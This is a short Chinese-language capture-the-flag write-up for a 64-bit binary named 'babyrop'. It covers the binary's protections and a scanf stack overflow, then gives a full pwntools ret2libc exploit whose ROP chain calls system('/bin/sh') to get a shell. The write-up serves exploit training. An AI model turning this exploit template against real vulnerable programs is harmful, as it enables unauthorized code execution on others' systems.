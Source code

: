 # 知识点

ret2libc



# 题目分析

1. 查看保护情况，64位程序，开启NX保护。

   ```bash
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```

2. 拖入IDA分析，发现scanf存在栈溢出漏洞。

   ![ida1](./isset/ida1.png)

3. 继续分析，发现题目提供了system函数和/bin/sh字符串。直接ret2libc即可。

   ![ida2](./isset/ida2.png)



# EXP

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./babyrop')
elf = ELF('./babyrop')

system = elf.sym['system']
binsh = elf.search('/bin/sh\x00').next()

pop_rdi = 0x400683
ret = 0x400479

payload = 'A' * 0x10 + 'deadbeef'
payload += p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system) + p64(0)
io.sendline(payload)

io.interactive()
```

